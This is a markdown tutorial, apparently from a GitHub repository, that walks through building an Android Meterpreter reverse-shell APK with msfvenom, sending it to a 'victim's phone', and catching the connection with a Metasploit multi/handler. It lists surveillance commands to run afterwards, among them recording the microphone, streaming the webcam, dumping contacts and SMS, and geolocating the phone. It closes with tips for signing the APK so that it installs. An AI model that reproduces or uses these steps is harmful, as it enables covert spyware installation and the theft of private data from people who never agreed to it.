 
# STEPS :

1. Fire Up kali and open command terminal.

2. Set payload and create custom windows executable.
Command:
```
    root@kali:-# msfvenom -p android/meterpreter/reverse_tcp  LHOST=192.168.0.110 LPORT=4444 R > andro.apk 
```
(To know your LHOST, open new terminal and type ifconfig )

Your apk file is being saved in the Home folder.

Note: Don't add any stray space characters anywhere. Use the command as is (after changing the LHOST and LPORT as needed).

3. Transfer/mail this file (here andro.apk) file to the victim's phone and install it.

4. Start the metasploit framework console as follows :
         
Command:
```
    root@kali:-# msfconsole
```

5. Now it's time to open and setup multi-handler. Follows the steps :
```
    msf  > use multi/handler
    msf exploit(handler) > set payload android/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.0.110
    msf exploit(handler) > set LPORT 4444
    msf exploit(handler) > exploit
```

        Payload Handler is being started........
```
6. When the victims clicks on the app(installed as MAIN ACTIVITY in the menu) in his phone, meterpreter session will be established.
```
Exploits:
```
7. Try the following exploit commands :
```
    - record_mic
    - webcam_snap
    - webcam_stream
    - dump_contacts
    - dump_sms
    - geolocate
************************************************************************
Error fixing(incase you get PARSE ERROR)

Two methods:

```
1)Type command "d2j-apk-sign andro.apk" 
```  
  or
```  
 2) To fix this error download signapk - Click here to download
```
Steps to follow
```
    Open Signapk folder then open cmd.
    Copy the andro.apk(the app you made) in Signapk folder.
    Type java -" jar signapk.jar certificate.pem key.pk8 andro.apk andro-signed.apk "in cmd(not double quotes).
    copy it in your phone and install it.
```
# Have fun with nu11secur1ty
